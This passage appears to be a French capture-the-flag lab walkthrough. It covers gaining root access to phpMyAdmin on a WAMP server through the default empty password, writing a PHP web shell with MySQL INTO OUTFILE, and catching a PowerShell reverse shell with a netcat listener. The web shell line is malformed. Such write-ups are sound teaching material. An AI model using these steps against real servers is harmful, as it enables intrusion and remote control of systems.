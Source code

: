 Une fois que vous avez accéder à la page web du service vulnérable : 
- Trouvez une façon d'ajouter du contenu au site web à l'aide de requête SQL
- Si vous devez spécifier des chemins, spécifier de façon absolue pour éviter les ambiguïtés.
- Pour récupérer un éventuel reverse-shell, vous pouvez utiliser pwncat-cs, dont la documentation est disponible [ici](../../outils/pwncat-cs)

{{< /tab >}}
{{< tab "Niveau 2" >}}

On sait que l'utilisateur par défaut est root et son mot de passe est vide (source : https://stackoverflow.com/questions/5818358/phpmyadmin-default-login-password).

Lorsque l'on tente cette combinaison sur Adminer, cela nous indique qu'Adminer n'autorise pas les mots de passe vides.
Cependant PHPMyAdmin, l'accepte tout à fait !

Ainsi nous accédons à l'interface de phpMyAdmin.

Nous avons désormais la possibilité de lancer des requêtes SQL en tant que root.

Grâce à la page d'accueil de WAMP, nous savons que nous nous trouvons dans le dossier `C:\wamp\www`.

Notre prochain objectif va donc d'être d'obtenir un shell interactif sur le serveur.

Pour cela plusieurs possibilités : 
- Exécuter des commandes au travers des requêtes
- Ajouter une backdoor dans les pages du site 

La première solution est faisable mais uniquement avec un OS Linux.

Nous allons donc créer une nouvelle page dans le dossier courant. 
A l'intérieur, nous mettons un script PHP qui exécute la commande entrée en argument.

On se sert de la commande "into OUTFILE" de MySQL pour écrire dans un fichier :  
```sql
SELECT "<?php echo shell_exec['c'];die;?>" into OUTFILE "C:\\Wamp\\www\\webshell.php"
```

Une fois la commande exécutée, nous pouvons exécuté les commandes que nous souhaitons sur la page : 
![[Pasted image 20240606162339.png]]

Ainsi, on crafte un reverse-shell en Powershell à l'aide de ce site : https://www.revshells.com.

> Il faut bien penser à l'encoder en URL pour que tous les caractères soient bien pris en compte

On écoute sur le port que l'on a configuré : 
```sh
nc -nlvp 80
```

Une fois l'URL requêté, on obtient un shell interactif.
Le flag se trouve à la racine du disque C:.
{{< /tab >}}
{{< /tabs >}}
## Elévation de privilèges
{{< tabs >}} {{< tab "Niveau 1" >}} 
